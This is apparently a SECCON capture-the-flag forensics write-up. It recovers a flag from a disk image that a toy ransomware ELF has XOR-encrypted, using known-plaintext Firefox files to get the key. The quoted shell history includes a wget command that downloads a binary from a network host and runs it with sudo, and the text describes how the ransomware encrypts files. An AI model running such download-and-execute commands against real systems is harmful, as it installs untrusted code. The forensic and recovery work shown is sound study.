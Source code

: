 To analyze the disk image, I converted .qcow2 image format to raw image format.
```
qemu-img disk.qcow2 -O raw disk.raw
```
MBR has bootloader which loads a code that prints some message and does nothing.
Scrolling down hex editor on raw image, there is another bootsector.
![SYSLINUX partition](1.png)
Let's extract the partition and boot. The partition can be analyzed by FTK Imager.
![/home/tc archive](2.png)
There is /home/tc folder on tgz file. I doubt it's extracted when booting. Let's look .ash_history.

```
tce-load -wil firefox-ESR
exit
tce-load -i firefox-ESR
firefox 172.17.0.1
wget http://172.17.0.1/getflag.bin -O getflag --user-agent="Chrome"
./getflag 
chmod +x getflag 
./getflag 
sudo ./getflag 
ls
firefox h1dd3n_s3cr3t_f14g.jpg 
```

According to this file, there would be "getflag" and "h1dd3n_s3cr3t_f14g.jpg". It exists!
But the jpg file has no signature.

`getflag` is ELF file ransomware which does XOR operation on every file inside `/home/tc` with same 0x400 size key which is from /dev/urandom. Before encrypting the files, it downloads `h1dd3n_s3cr3t_f14g.jpg` via wget. The jpg file is also encrypted.

Except this file, there are some files which are encrypted.

```
-rwxrwx--- 1 root root 248 11월 29 10:57 ./.local/share/mime/packages/user-extension-htm.xml
-rwxrwx--- 1 root root 251 11월 29 10:57 ./.local/share/mime/packages/user-extension-html.xml
-rwxrwx--- 1 root root 254 11월 29 10:57 ./.local/share/mime/packages/user-extension-shtml.xml
-rwxrwx--- 1 root root 248 11월 29 10:57 ./.local/share/mime/packages/user-extension-xht.xml
-rwxrwx--- 1 root root 254 11월 29 10:57 ./.local/share/mime/packages/user-extension-xhtml.xml
-rwxrwx--- 1 root root 207840 11월 29 10:57 ./.mozilla/firefox/wir5mrmb.default/blocklist.xml
-rwxrwx--- 1 root root 2723 11월 29 10:57 ./.mozilla/firefox/wir5mrmb.default/revocations.txt
```

Since the size of the jpg file is more than 0x400, we need to obtain full 0x400 size XOR key.
If we have original blocklist.xml or revocations.txt, we can get the key by XOR-ing the original one and the encrypted one.
Fortunately, by removing profile and profile.ini on `.mozilla/firefox`, we can regenerate two files which has the same size.

```
-rwxrwx--- 1 root root 207840 12월 11 13:48 blocklist.xml
-rwxrwx--- 1 root root   2723 12월 11 13:48 revocations.txt
```

Cool. Let's get the encryption key.

```
tc@box:~$ python -c 'import sys; print [ord(x)^ord(y) for x, y in zip(open(sys.argv[1], "rb").read(), open(sys.argv[2], "rb").read())][:0x400]' revocations.txt /home/tc/.mozilla/firefox/wir5mrmb.default/revocations.txt
[98, 240, 180, 12, 71, 139, 111, 251, 164, 144, 75, 101, 114, 177, 172, 201, 61, 96, 38, 89, 126, 187, 125, 225, 93, 53, 92, 181, 222, 113, 7, 147, 71, 20, 1, 240, 76, 155, 139, 84, 190, 0, 20, 43, 47, 86, 161, 151, 5, 15, 229, 200, 163, 85, 116, 70, 82, 88, 151, 8, 168, 232, 45, 93, 110, 145, 98, 132, 179, 112, 8, 20, 197, 181, 118, 109, 107, 249, 3, 195, 249, 34, 153, 102, 98, 27, 68, 226, 43, 91, 103, 100, 46, 150, 135, 221, 125, 198, 110, 28, 255, 200, 251, 1, 187, 1, 224, 153, 197, 196, 103, 200, 193, 48, 60, 212, 233, 145, 125, 106, 233, 172, 15, 61, 79, 161, 21, 150, 93, 214, 63, 171, 144, 46, 133, 187, 225, 208, 179, 216, 156, 179, 235, 71, 89, 49, 50, 91, 251, 255, 117, 181, 54, 230, 167, 247, 171, 155, 73, 2, 239, 143, 242, 247, 116, 89, 114, 103, 46, 107, 174, 60, 65, 226, 43, 159, 51, 49, 192, 223, 181, 35, 212, 8, 133, 192, 238, 50, 207, 175, 76, 29, 10, 124, 12, 64, 207, 40, 149, 82, 30, 44, 199, 5, 251, 78, 238, 209, 92, 212, 95, 166, 42, 150, 171, 219, 7, 244, 136, 135, 202, 164, 208, 222, 171, 183, 228, 238, 77, 0, 200, 147, 172, 226, 229, 23, 122, 170, 147, 89, 234, 206, 205, 26, 77, 49, 130, 226, 100, 167, 112, 171, 29, 63, 232, 142, 208, 173, 90, 164, 172, 224, 125, 167, 24, 30, 170, 21, 178, 191, 90, 161, 176, 85, 139, 36, 66, 140, 135, 176, 25, 130, 227, 42, 49, 35, 238, 133, 246, 38, 16, 251, 255, 138, 124, 76, 250, 82, 132, 203, 119, 184, 138, 194, 62, 133, 123, 5, 140, 11, 114, 92, 141, 231, 203, 196, 141, 88, 238, 54, 105, 50, 76, 92, 184, 146, 168, 135, 37, 7, 167, 118, 184, 80, 217, 121, 107, 66, 242, 137, 145, 121, 59, 160, 0, 17, 164, 22, 35, 193, 72, 181, 156, 112, 57, 65, 160, 43, 124, 182, 239, 221, 232, 248, 160, 35, 109, 182, 147, 218, 6, 200, 160, 223, 129, 131, 15, 21, 73, 253, 83, 237, 245, 44, 188, 211, 210, 162, 153, 212, 29, 113, 222, 211, 79, 74, 57, 47, 130, 93, 33, 232, 219, 109, 133, 226, 132, 89, 112, 52, 37, 121, 245, 32, 207, 207, 169, 83, 3, 219, 10, 250, 231, 13, 185, 127, 80, 187, 27, 97, 213, 112, 118, 215, 170, 110, 27, 16, 217, 140, 132, 168, 183, 0, 49, 103, 195, 36, 202, 246, 230, 107, 141, 105, 7, 27, 57, 40, 159, 101, 2, 27, 207, 30, 145, 61, 139, 142, 186, 128, 170, 245, 58, 33, 199, 103, 100, 19, 205, 152, 71, 12, 186, 206, 82, 212, 254, 80, 31, 147, 156, 0, 127, 236, 181, 130, 158, 9, 201, 102, 124, 237, 241, 162, 253, 7, 227, 208, 156, 250, 194, 235, 54, 117, 19, 46, 132, 232, 107, 181, 134, 232, 3, 182, 35, 254, 229, 144, 125, 23, 146, 2, 104, 3, 151, 210, 193, 226, 218, 154, 28, 65, 47, 137, 25, 244, 6, 7, 119, 69, 142, 2, 196, 247, 247, 239, 174, 141, 41, 59, 84, 226, 224, 242, 218, 61, 254, 28, 132, 116, 249, 193, 249, 70, 227, 131, 135, 221, 178, 237, 169, 75, 117, 205, 210, 215, 251, 254, 45, 232, 234, 137, 107, 123, 169, 99, 223, 100, 95, 17, 172, 216, 226, 79, 128, 202, 136, 162, 208, 245, 87, 65, 221, 174, 136, 247, 209, 158, 241, 185, 146, 65, 222, 66, 120, 165, 225, 240, 79, 239, 2, 63, 206, 150, 227, 32, 60, 234, 109, 196, 229, 127, 13, 207, 214, 9, 101, 167, 61, 137, 207, 3, 193, 219, 218, 67, 135, 68, 134, 17, 154, 183, 74, 236, 25, 206, 244, 37, 88, 159, 40, 181, 53, 84, 221, 148, 116, 201, 52, 67, 1, 76, 203, 230, 7, 179, 82, 129, 152, 167, 31, 28, 134, 108, 98, 220, 28, 13, 25, 243, 11, 132, 160, 157, 194, 219, 68, 165, 230, 2, 211, 119, 242, 118, 11, 194, 154, 43, 125, 3, 45, 147, 136, 45, 145, 54, 182, 149, 16, 210, 18, 243, 253, 71, 208, 147, 120, 246, 102, 65, 185, 70, 111, 185, 235, 8, 105, 135, 122, 211, 201, 12, 210, 13, 218, 37, 138, 200, 86, 70, 38, 223, 129, 77, 135, 250, 235, 186, 205, 25, 155, 220, 199, 38, 9, 185, 244, 187, 43, 240, 29, 22, 108, 10, 209, 183, 22, 109, 95, 12, 44, 63, 16, 168, 64, 82, 123, 21, 8, 241, 149, 30, 31, 84, 181, 9, 138, 129, 152, 187, 176, 46, 247, 11, 96, 151, 208, 246, 51, 44, 74, 251, 102, 167, 227, 41, 108, 179, 224, 30, 147, 226, 189, 61, 93, 100, 36, 247, 135, 246, 226, 4, 208, 18, 229, 198, 14, 23, 112, 130, 94, 167, 80, 144, 247, 13, 228, 19, 119, 53, 232, 18, 93, 239, 46, 77, 19, 122, 1, 179, 37, 4, 114, 70, 4, 135, 2, 117, 79, 142, 57, 116, 56, 233, 193, 121, 23, 85, 71, 35, 177, 205, 157, 206, 113, 171, 138, 80, 202, 27, 92, 158, 231, 1, 116, 69, 255, 129, 118, 127, 190, 243, 244, 164, 13, 104, 175, 6, 47, 6, 163, 62, 24, 139, 70, 241, 16, 245, 12, 187, 114, 235, 238, 0, 117, 105, 8, 246, 108, 235, 237, 14, 207, 191, 106, 78, 166, 210, 206, 99, 59, 97, 186, 143, 129, 232, 227, 172, 147, 14, 60, 96, 40, 99, 195, 103, 157, 34, 100, 50, 251, 84, 124, 248, 80, 51, 200, 112, 159, 65, 255, 68, 121, 78, 89, 249, 170, 181, 74, 111, 9, 98, 27, 242, 247, 126, 90, 231, 150, 241, 188, 232, 42, 82, 195, 243, 242, 65, 136, 174, 248, 249, 243, 227, 85, 163, 212, 130, 205, 59, 208, 59, 212, 34]
```

To validate if the XOR key is valid, we can compare the key from 0x400~0x800 offset with this one.
```
tc@box:~$ python -c 'import sys; print [ord(x)^ord(y) for x, y in zip(open(sys.argv[1], "rb").read(), open(sys.argv[2], "rb").read())][0x400:][:0x400]' revocations.txt /home/tc/.mozilla/firefox/wir5mrmb.default/revocations.txt
[98, 240, 180, 12, 71, 139, 111, 251, 164, 144, 75, 101, 114, 177, 172, 201, ...]
```

It's same. Let's decrypt the jpg file with this key.
```
python -c 'import sys, itertools; data=[ord(a)^b for a, b in zip(open(sys.argv[3], "rb").read(), itertools.cycle([ord(x)^ord(y) for x, y in zip(open(sys.argv[1], "rb").read(), open(sys.argv[2], "rb").read())][:0x400]))]; open(sys.argv[3], "wb").write(bytearray(data))' blocklist.xml /home/tc/.mozilla/firefox/wir5mrmb.default/blocklist.xml h1dd3n_s3cr3t_f14g.jpg
```

![flag](h1dd3n_s3cr3t_f14g.jpg)

**Flag: SECCON{This is Virtual FAT too}**